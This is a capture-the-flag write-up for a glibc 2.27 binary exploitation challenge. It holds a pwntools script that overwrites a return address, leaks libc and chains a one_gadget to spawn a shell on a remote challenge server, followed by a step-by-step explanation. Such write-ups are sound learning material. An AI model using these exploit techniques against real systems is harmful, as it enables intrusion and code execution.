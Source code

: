 # Solution

```
# pwntools template...
# glibc: libc6_2.27-3ubuntu1_amd64


#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      PIE enabled

io = remote("nc.eonew.cn", 10004)

exploit = fit({136: b"\x6f"})

io.sendline(exploit)

resp = io.recvline()
resp = resp.strip()[136:]
libc_leak = u64(resp.ljust(8, b'\x00'))
log.success("libc leak: {}".format(hex(libc_leak)))
libc_start_main = libc_leak - 0xbf
log.success("libc_start_main @ {}".format(hex(libc_start_main)))
libc.address = libc_start_main - 0x021ab0
log.success("libc base: {}".format(hex(libc.address)))

rc = ROP([exe,libc])
rc.raw(p64(libc.address + 0x4f322))

exploit2 = fit({136: rc.chain()})

io.sendline(exploit2)

io.interactive()
```

# Partial overwrite -> return to `__libc_start_main` + leak -> one_gadget

1. Partially overwrite the return address during the STDIN phase. This changes the least significant byte to be 0x6f. This causes RIP to point to an earlier part of the `__libc_start_main` function- which allows you to get another input (restarting the STDIN phase).

2. This gets you the leak for the middle of  `__libc_start_main` which is `0xbf` in the middle of the function. `__libc_start_main` is `0x21ab0` from the base of `glibc` here too. You now have a glibc base address.

3. There is a one_gadget in `libc.address + 0x4f322` that can be used, where the requirements are already met:

```
0x4f322 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL
```

4. You should have a shell!

# Issues

* I had a lot of trouble dealing with using a custom glibc. I need to work on this because it's really hard to make it all work especially with special linkers. I couldn't get the exploit to work locally- it segfaulted. However, in `gdb`, I saw that `/bin/dash` was forked so I assume it worked.

* `scanf()` will stop reading at a whitespace or EOL or null byte. Therefore, you can't really write a multiple 64-bit address with leading `0x00` bytes. You can't make a whole ROP chain because of this. I tried to run `gets()` when I got control of RIP but that segfaulted.
